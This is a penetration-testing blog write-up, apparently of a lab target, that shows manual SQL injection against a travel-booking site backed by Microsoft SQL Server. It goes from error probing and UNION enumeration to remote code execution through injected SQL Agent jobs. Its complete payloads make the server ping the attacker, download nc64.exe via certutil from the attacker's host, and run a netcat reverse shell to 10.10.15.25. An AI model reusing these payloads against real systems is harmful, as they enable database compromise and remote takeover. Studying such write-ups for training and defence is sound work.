 ```yaml
---
title: Manual SQLi On MSSQL [ Creating Jobs With Mssql ]
author: r0b0tG4nG
date: 2021-12-17 10:18:00 +0000
categories: [Blogging, Exploiting, Web Applications]
tags: [writeups, sqli, sql injection, burpsuite, shell, xp_cmdshell]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/146534410-1abcfb45-ad47-4adf-b54d-637ea41aedd2.png)

**> Information Gathering**<br>

SQL injection aka `SQLi` is a `web security vulnerability` that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.  More information on <a href="https://portswigger.net/web-security/sql-injection"> PortSwigger</a>
 
On port 80, we can see an amazing web application that's meant for booking trips. It's safe to assume that this is a travel agent website where one can book a destination to a desired location. The target website appears to have static webpages except the `book-trip.php` page. On this page we are presented with a login form which has 3 fields. `1. Destination`, `2. Adults` & `3. Children`.<br>
![image](https://user-images.githubusercontent.com/67085453/146534457-64377610-eb21-4c71-9928-693096c1a99f.png)<br>

In `SQLi`, there are few characters that are capable of triggering an error in a database. These characters are `*, ', " & a few others`. In this engagement, we will use a single `'` quote to test all fields. It's always best to test one field at a time, so let's put single quote `'` in the `destination field` and capture the request in burpsuite for further testing.<br>
![image](https://user-images.githubusercontent.com/67085453/146534508-19900b99-e551-4608-a2ee-beee590510dd.png)<br>

Pushing the request to `burpsuite forwarder`, and sending the request again, we were able to trigger a `sql error`. From the response in burpsuite, the error displayed is `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string ''.` & `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near ''.`<br>
![image](https://user-images.githubusercontent.com/67085453/146534664-ce769aa7-7712-4149-a2bc-cd167c2f1f4c.png)
<br>

The `destination field` is vulnerable to sql injection. To further exploit this vulnerability, we need to find the number of columns on the target. In `SQL`, the query `Order by` is used to sort the `result-set` in `ascending or descending order.`. To accomplish this, we will modify the data in our request `destination='+order+by+1+--&adults=1&children=1`. Note: we will keep increasing the values till we find the right columns on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/146534570-aea70b24-8a91-45fe-ac13-d07d9b9cc688.png)<br>

The target database has `5 columns` which can be confirmed from the image above. The reason for performing an SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, we need to find one or more columns in the original query results whose data type is, or is compatible with, string data. To test this, we will modify our data `destination='+UNION+SELECT+'a',2,3,4,5+--&adults=1&children=1`.  We will keep testing until the `alphabets` we submitted appears in the webapp response.<br>
![image](https://user-images.githubusercontent.com/67085453/146534844-8ee75f58-78a8-4472-9045-76a10d0a14a1.png)<br>

We found the relevant columns that are suitable for retrieving string data. We have all that we need now the next step is to start extracting information from the database. For starters, let's start with the version of SQL server running on the target. We can achieve this using `destination='+UNION+SELECT+1,'a',(SELECT+@@version),3,4+--&adults=1&children=1`<br>
![image](https://user-images.githubusercontent.com/67085453/146534862-13fff3f1-d047-4195-ac8d-cf617f3d2807.png)<br>

We can further enumerate the target database to retrieve information but it's unfortunate i won't dive deep into that. For more information on how to enumerate the database manually, you can check at <a href="https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/">perspectiverisk</a>. For now, let's focus on to enable `xp_cmdshell` on the target.<br>

After trying for some time to enable `xp_cmdshell` manually, i hit a dead-end. I tried all that i know and also followed the steps on both <a href="https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/">mssqltips</a> & <a href="https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e">medium.com</a> as well as few others, i failed. I decided to use the automatic method since i know the injection point, it’s easier to do it with `sqlmap`.<br>
![image](https://user-images.githubusercontent.com/67085453/146534917-09c92a28-6a5c-4cfe-a62b-f43254b458f4.png)<br>

Using `sqlmap` didn't do any good. I tried bypassing this feature with some few `sqlmap arguments` but i still failed. Looking at the screenshot above, sqlmap presented us with this error<br> 
```shell
[02:00:34] [WARNING] xp_cmdshell creation failed, probably because sp_OACreate is disabled
[02:00:34] [CRITICAL] unable to proceed without xp_cmdshell
```
<br>

**> Creating MSSQL Jobs Through SQLi**<br>

The question is "how do we do this?? is it even possible??"??  The answer is *YES* it is possible have you heard about `T-SQL`??
`T-SQL (Transact-SQL)` is a set of programming extensions from `Sybase and Microsoft` that add several features to the Structured Query Language (SQL), including transaction control, exception and error handling, row processing and declared variables.

`T-SQL identifiers`, meanwhile, are used in all databases, servers, and database objects in SQL Server. These include the following `tables, constraints, stored procedures, views, columns and data types`. T-SQL identifiers must each have a `unique name, are assigned when an object is created and are used to identify an object`.<br>

With this information, i looked deeper into assigning `T-SQL identifiers` on MSSQL which led to <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-add-jobserver-transact-sql?view=sql-server-ver15">microsoft T-SQL</a> documentation.<br>

To successfully create a `job` in MSSQL using `T-SQL`, we need two important arguments. These arguments are `[ @job_id = ] job_id` or `[ @job_name = ] 'job_name'` & `[ @server_name = ] 'server`. <br>

> Note: Either job_id or job_name must be specified, but both cannot be specified.

<br>

We have all the information we need but another issue pops up. What's the issue?? how do i create this without any error?? i googled for samples of `T-SQL Jobs` and i came across this website <a href="https://www.mssqltips.com/sqlservertip/3052/simple-way-to-create-a-sql-server-job-using-tsql/">mssqltips</a> which clearly defines a fully functional `T-SQL job`. From the sample on this website, i crafted a `T-SQL query` to test if i can ping my ipaddress  .<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\windows\system32\cmd.exe /c ping -n 10 10.10.15.25', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

To identify ping requests, we have to start `tcpdump` on my attacker machine to filter `icmp` on ipaddress of our network interface. We can achieve this by typing `sudo tcpdump -i tun0 icmp`  in this case, i am listening on `tun0` interface. Send the `testping T-SQL` request to the target from burpsuite and i received a ping on my machine.<br>
![image](https://user-images.githubusercontent.com/67085453/146534986-13349439-ead1-4a26-9b33-3d01c7d854bc.png)<br>


If we are able to execute a ping request, then we are two steps away from gaining remote code execution on the target. There are many ways to do this but i will stick to the basic 3:
> 1. Create an msfvenom payload, transfer to the target and execute it.<br>
> 2. Transfer netcat windows binary to the target and execute that for a rev shell<br>
> 3. Use a powershell one-liner to transfer and execute your nishang-tcp-shell script<br>

I will use the second method. First grab netcat windows binary from <a href="https://github.com/int0x33/nc.exe/">int0x33 GitHub repo</a>, then craft a new `T-SQL job` query to transfer the file from your attacking machine to the target machine.<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\\windows\\system32\\cmd.exe /c certutil -urlcache -f http://10.10.15.25/nc64.exe C:\\Windows\\temp\\nc64.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

Start python server on the attacking machine using `python -m SimpleHTTPServer port number` or the py3 method `python3 -m http.server port number` then put this `T-SQL` query in burpsuite and forward the request once again. It worked i got a hit from the target machine. `Nc64.exe` is transferred to `C:\\Windows\\temp\\` directory.<br>
![image](https://user-images.githubusercontent.com/67085453/146535020-9cff2fb4-4005-45e1-84f1-6d1c2d7067e1.png)<br>

All we need to do now is to parse our `ipaddress` and `port number` to `nc64.exe` in order to gain a reverse connection to the target machine. As usual we have to modify our `T-SQL` query to perform this action. Once done, modify burpsuite data and send request again. <br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'C:\\Windows\\temp\\nc64.exe 10.10.15.25 445 -e cmd.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>


Whoop Whoop we got a reverse connection to the target machine. I hope you enjoyed the ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>
![image](https://user-images.githubusercontent.com/67085453/146535039-fc5cc779-43b1-4f0b-83c6-ad7129b54219.png).
